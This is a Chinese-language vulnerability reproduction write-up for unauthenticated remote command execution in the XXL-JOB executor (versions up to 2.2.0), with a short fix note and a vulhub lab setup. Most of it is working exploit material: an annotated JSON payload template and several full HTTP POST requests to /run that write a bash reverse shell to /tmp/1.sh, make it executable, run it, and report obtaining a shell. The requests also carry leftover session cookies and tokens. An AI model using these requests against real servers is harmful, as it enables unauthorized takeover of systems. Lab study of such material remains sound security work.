

# XXL-JOB远程命令执行漏洞

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** XXL-JOB远程命令执行漏洞


## 0x01 漏洞描述

XXL-JOB是一个轻量级分布式任务调度平台,支持通过web页面对任务进行操作，基于Java-spring boot框架开发，利用Maven依赖编译好，开箱即用。其核心设计目标是开发迅速、学习简单、轻量级、易扩展。XXL-JOB分为admin和executor两端，前者为后台管理页面，后者是任务执行的客户端。默认情况下executor的Restful API接口或RPC接口没有配置认证措施，未授权的攻击者可以通过RESTful API构造恶意请求，造成远程执行命令，直接控制服务器。

## 0x02 影响版本

```json
XXL-JOB <= 2.2.0
```

## 0x03 修复建议

增加授权验证，配置 `xxl.job.accessToken` 防止未授权访问漏洞。

## 0x04 靶场搭建

**前提条件**

安装docker 及 docker-compose环境

使用`vulhub`靶场

```
git clone https://github.com/vulhub/vulhub.git
cd vulhub/xxl-job/unacc
docker-compose up -d
```

环境启动后，访问http://:8080即可查看到管理端（admin），访问http://:9999可以查看到客户端（executor）。

**客户端**

浏览器访问`http://<your-ip>:9999`



看到如上图，说明漏洞环境部署成功。

**管理端**

浏览器访问`http://<your-ip>:8080`


## 0x05 漏洞复现

浏览器访问`http://<your-ip>:9999/run`，同时使用`BurpSuite`进行抓包。

修改请求方式为POST，并写入EXP代码，然后放包。

**exp格式解释**

```
exp：
{
  "jobId": 1,                                           # 任务ID
  "executorHandler": "demoJobHandler",                  # 任务标识
  "executorParams": "demoJobHandler",                   # 任务参数
  "executorBlockStrategy": "COVER_EARLY",               # 任务阻塞时间
  "executorTimeout": 0,                                 # 任务超时时间
  "logId": 1,                                           # 本次调度日志ID
  "logDateTime": 1586629003729,                         # 本次调度日志时间
  "glueType": "GLUE_SHELL",                             # 任务模式
  "glueSource": "echo 'bash -i >& /dev/tcp/<攻击者IP>/<攻击者的监听端口> 0>&1' > /tmp/1.sh",   # 任务脚本代码
  "glueUpdatetime": 1586699003758,                      # GLUE脚本更新时间，用于判定脚本是否变更以及是否需要刷新
  "broadcastIndex": 0,                                  # 分片参数：当前分片
  "broadcastTotal": 0                                   # 分片参数：总分片
}
```

其中的任务模式 `glueType`，有下面几种：

```
BEAN("BEAN", false, null, null),
GLUE_GROOVY("GLUE(Java)", false, null, null),
GLUE_SHELL("GLUE(Shell)", true, "bash", ".sh"),
GLUE_PYTHON("GLUE(Python)", true, "python", ".py"),
GLUE_PHP("GLUE(PHP)", true, "php", ".php"),
GLUE_NODEJS("GLUE(Nodejs)", true, "node", ".js"),
GLUE_POWERSHELL("GLUE(PowerShell)", true, "powershell", ".ps1");
```

**攻击请求包如下：**

```
POST /run HTTP/1.1
Host: 192.168.81.157:9999
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Content-Length: 365
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_COOKIE_NAME_PREFIX=jms_; X-JMS-ORG=00000000-0000-0000-0000-000000000002; jms_public_key="LS0tLS1CRUdJTiBQVUJMSUMgS0VZLS0tLS0KTUlHZk1BMEdDU3FHU0liM0RRRUJBUVVBQTRHTkFEQ0JpUUtCZ1FDOFI1eU1GM1NTZGhySVdONm42UHNRV3ZYcgpjTXZKMXNaam55aVNTTjlvaGlqTHFXUHFZMkI4dzNYdkM0RTRTdnl2eTkxT0xyWVVrVG52ckhTK2c2aUhLQ1RZClRucXR5T0lSN3BpaGlZSTFObmxYY25KWVpMcjhXTXowYVlrdVViSHJVNFBhQWQ4aFlzRmJvbGwzMlVBeGROSSsKblk5cU1LWnluUGFYT3M2aDFRSURBUUFCCi0tLS0tRU5EIFBVQkxJQyBLRVktLS0tLQ=="; jms_session_expire=close; jms_csrftoken=qMzSigM9M0moTYJM51O87LcR1ufq0uyZ; jms_sessionid=ax938kdr2yc855mefi7sz53t18ibnefj; activeTab=Detail
Connection: close

{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_SHELL",
  "glueSource": "touch /tmp/awesome_poc",
  "glueUpdatetime": 1586699003758,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}
```


再次抓包改包

```
POST /run HTTP/1.1
Host: 192.168.81.173:9999
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_COOKIE_NAME_PREFIX=jms_; X-JMS-ORG=00000000-0000-0000-0000-000000000002; jms_public_key="LS0tLS1CRUdJTiBQVUJMSUMgS0VZLS0tLS0KTUlHZk1BMEdDU3FHU0liM0RRRUJBUVVBQTRHTkFEQ0JpUUtCZ1FDOFI1eU1GM1NTZGhySVdONm42UHNRV3ZYcgpjTXZKMXNaam55aVNTTjlvaGlqTHFXUHFZMkI4dzNYdkM0RTRTdnl2eTkxT0xyWVVrVG52ckhTK2c2aUhLQ1RZClRucXR5T0lSN3BpaGlZSTFObmxYY25KWVpMcjhXTXowYVlrdVViSHJVNFBhQWQ4aFlzRmJvbGwzMlVBeGROSSsKblk5cU1LWnluUGFYT3M2aDFRSURBUUFCCi0tLS0tRU5EIFBVQkxJQyBLRVktLS0tLQ=="; jms_session_expire=close; jms_csrftoken=qMzSigM9M0moTYJM51O87LcR1ufq0uyZ; jms_sessionid=ax938kdr2yc855mefi7sz53t18ibnefj; activeTab=Detail
Connection: close

{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_SHELL",
  "glueSource": "echo 'bash -i >& /dev/tcp/192.168.81.176/8989 0 >&1' > /tmp/1.sh",
  "glueUpdatetime": 1586699003758,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}
```

结果如下：


再次抓包赋予可执行权限

```
POST /run HTTP/1.1
Host: 192.168.81.173:9999
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_COOKIE_NAME_PREFIX=jms_; X-JMS-ORG=00000000-0000-0000-0000-000000000002; jms_public_key="LS0tLS1CRUdJTiBQVUJMSUMgS0VZLS0tLS0KTUlHZk1BMEdDU3FHU0liM0RRRUJBUVVBQTRHTkFEQ0JpUUtCZ1FDOFI1eU1GM1NTZGhySVdONm42UHNRV3ZYcgpjTXZKMXNaam55aVNTTjlvaGlqTHFXUHFZMkI4dzNYdkM0RTRTdnl2eTkxT0xyWVVrVG52ckhTK2c2aUhLQ1RZClRucXR5T0lSN3BpaGlZSTFObmxYY25KWVpMcjhXTXowYVlrdVViSHJVNFBhQWQ4aFlzRmJvbGwzMlVBeGROSSsKblk5cU1LWnluUGFYT3M2aDFRSURBUUFCCi0tLS0tRU5EIFBVQkxJQyBLRVktLS0tLQ=="; jms_session_expire=close; jms_csrftoken=qMzSigM9M0moTYJM51O87LcR1ufq0uyZ; jms_sessionid=ax938kdr2yc855mefi7sz53t18ibnefj; activeTab=Detail
Connection: close

{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_SHELL",
  "glueSource": "chmod 777 /tmp/1.sh",
  "glueUpdatetime": 1586699003758,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}
```


攻击机查看IP，并通过nc工具监听8989端口


抓包，执行该脚本文件

```
POST /run HTTP/1.1
Host: 192.168.81.173:9999
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_COOKIE_NAME_PREFIX=jms_; X-JMS-ORG=00000000-0000-0000-0000-000000000002; jms_public_key="LS0tLS1CRUdJTiBQVUJMSUMgS0VZLS0tLS0KTUlHZk1BMEdDU3FHU0liM0RRRUJBUVVBQTRHTkFEQ0JpUUtCZ1FDOFI1eU1GM1NTZGhySVdONm42UHNRV3ZYcgpjTXZKMXNaam55aVNTTjlvaGlqTHFXUHFZMkI4dzNYdkM0RTRTdnl2eTkxT0xyWVVrVG52ckhTK2c2aUhLQ1RZClRucXR5T0lSN3BpaGlZSTFObmxYY25KWVpMcjhXTXowYVlrdVViSHJVNFBhQWQ4aFlzRmJvbGwzMlVBeGROSSsKblk5cU1LWnluUGFYT3M2aDFRSURBUUFCCi0tLS0tRU5EIFBVQkxJQyBLRVktLS0tLQ=="; jms_session_expire=close; jms_csrftoken=qMzSigM9M0moTYJM51O87LcR1ufq0uyZ; jms_sessionid=ax938kdr2yc855mefi7sz53t18ibnefj; activeTab=Detail
Connection: close

{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_SHELL",
  "glueSource": "/bin/bash /tmp/1.sh",
  "glueUpdatetime": 1586699003758,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}
```

成功拿到shell


